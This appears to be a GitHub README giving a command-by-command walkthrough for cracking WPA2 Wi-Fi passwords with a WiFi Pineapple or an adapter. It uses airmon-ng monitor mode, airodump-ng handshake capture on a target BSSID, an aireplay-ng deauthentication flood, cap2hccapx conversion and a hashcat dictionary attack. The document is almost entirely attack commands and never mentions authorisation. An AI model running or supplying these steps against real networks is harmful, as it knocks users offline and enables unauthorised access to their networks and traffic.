 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

After the Setup
![Setup](images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>

<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
